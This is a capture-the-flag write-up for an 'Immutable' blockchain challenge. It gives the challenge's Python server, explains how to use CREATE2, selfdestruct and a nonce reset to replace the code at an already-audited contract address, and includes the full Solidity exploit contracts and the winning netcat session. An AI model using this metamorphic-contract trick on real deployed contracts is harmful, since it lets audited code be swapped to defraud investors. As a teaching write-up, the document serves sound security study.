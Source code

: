 # Immutable [17 solves] [372 points]  

### Description
```
Code is law, and whatever's on the blockchain can never be changed.

nc chall.polygl0ts.ch 4700
```

The objective of this challenge is to change the code of a deployed contract

### immutable.py
```python
#!/usr/bin/env -S python3 -u

LOCAL = False # Set this to true if you want to test with a local hardhat node, for instance

#############################

import os.path, hashlib, hmac
BASE_PATH = os.path.abspath(os.path.dirname(__file__))

with open(os.path.join(BASE_PATH, "key")) as f:
    KEY = bytes.fromhex(f.read().strip())

if LOCAL:
    from web3.auto import w3 as web3
else:
    from web3 import Web3, HTTPProvider
    web3 = Web3(HTTPProvider("https://rinkeby.infura.io/v3/9aa3d95b3bc440fa88ea12eaa4456161"))

def gib_flag():
    with open(os.path.join(BASE_PATH, "flag.txt")) as f:
        print(f.read().strip())

def auth(addr):
    H = hmac.new(KEY, f"{int(addr, 16):40x}".encode(), hashlib.blake2b)
    return H.hexdigest()

def audit():
    addr = input("Where is your contract? ")
    code = web3.eth.get_code(addr)
    if not code:
        print("Haha, very funny, a contract without code...")
        return
    if target(addr) in code:
        print("Oh, you criminal!")
    else:
        print("Alright then, here's some proof that that contract is trustworthy")
        print(auth(addr))

def target(addr):
    return hashlib.sha256(f"{int(addr, 16):40x}||I will steal all your flags!".encode()).digest()

def rugpull():
    addr = input("Where is your contract? ")
    proof = input("Prove you're not a criminal please.\n> ")
    if auth(addr) != proof:
        print("I don't trust you, I won't invest in your monkeys")
        return
    print("Oh, that looks like a cool and safe project!")
    print("I'll invest all my monopoly money into this!")
    code = web3.eth.get_code(addr)
    if target(addr) in code:
        gib_flag()
    else:
        print("Oh, I guess my money actually *is* safe, somewhat...")

if __name__ == "__main__":
    choice = input("""What do you want to do?
1. Perform an audit
2. Pull the rug
3. Exit
> """).strip()
    {"1": audit, "2": rugpull}.get(choice, exit)()
```

First, we have to submit the contract address to `Perform an audit`, which will give us a proof of the contract that we will need it later for the `Pull the rug`.

It requires at the point `target(addr)` is not in the contract code.

But in `Pull the rug`, we have to change the contract code to have `target(addr)` inside the code in order to get the flag.

It is possible to change a deployed contract's code with a factory contract that has `selfdestruct()` feature, and is deployed with same salt using CREATE2.

Contract address can be pre-computed, for a contract deployed with CREATE, it takes in the factory contract's address and the nonce.

With CREATE2, we can re-deploy to the same address with same salt and same code, so we can deploy the factory contract with CREATE2 then use the factory contract to create a contract with CREATE.

Then submit the deployed contract to `Perform an audit`, it will return the proof for that contract address which we will use later.

After we get the proof, run `selfdestruct()` on both the deployed contract and the factory cotnract, after the factory contract ran `selfdestruct()`, its nonce will be reset.

Then on the factory contract that deployed the another factory contract with CREATE2, deploy the factory contract again with same salt using CREATE2. Then the deployed factory contract will be able to deploy another contract containing `target(addr)` to the same address we submitted, as its nonce has been reset.

Finally, the same address we submitted will has different code that contains `target(addr)`, so we can submit it for `Pull the rug` and get the flag.

### exploit.sol :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract contract1 {
    function destruct() public {
        selfdestruct(payable(0x0590C193Aa1E23849263FF52Ef769F4CDdb6e947));
    }
}

contract contract2 {
    constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
}

contract contractFactory {
    contract1 public instance;
    contract2 public instance2;

    function deploy() public {
        instance = new contract1();
    }

    function deploy2(bytes memory a) public {
        instance2 = new contract2(a);
    }

    function destruct() public {
        instance.destruct();
    }

    function destructItself() public {
        selfdestruct(payable(0x0590C193Aa1E23849263FF52Ef769F4CDdb6e947));
    }
}

contract factoryFactory {
    contractFactory public factory;

    function deployFactory() public {
        factory = new contractFactory{salt: keccak256("kaiziron")}();
    }

    function deployContract1() public {
        factory.deploy();
    }

    function deployContract2(bytes memory proof) public {
        factory.deploy2(proof);
    }

    function factoryDestruct() public {
        factory.destruct();
        factory.destructItself();
    }
}
```

### Flag : 

```
# nc chall.polygl0ts.ch 4700
What do you want to do?
1. Perform an audit
2. Pull the rug
3. Exit
> 1
Where is your contract? 0xc0FCf32F0EfC91dcd51f646E0a1E97E3B8B2098B
Alright then, here's some proof that that contract is trustworthy
916e028fd1a6c6ec1d0cdcde4b8588f2134a8fd78feb5d824e7f90cc31e26e5657e63d7312704d31bdbfa0b2a01e1004580888a5b41ef1b90eb800ef97c18e15

# nc chall.polygl0ts.ch 4700
What do you want to do?
1. Perform an audit
2. Pull the rug
3. Exit
> 2                                         
Where is your contract? 0xc0FCf32F0EfC91dcd51f646E0a1E97E3B8B2098B
Prove you're not a criminal please.
> 916e028fd1a6c6ec1d0cdcde4b8588f2134a8fd78feb5d824e7f90cc31e26e5657e63d7312704d31bdbfa0b2a01e1004580888a5b41ef1b90eb800ef97c18e15
Oh, that looks like a cool and safe project!
I'll invest all my monopoly money into this!
EPFL{https://youtu.be/ZgWkdQDBqiQ}
```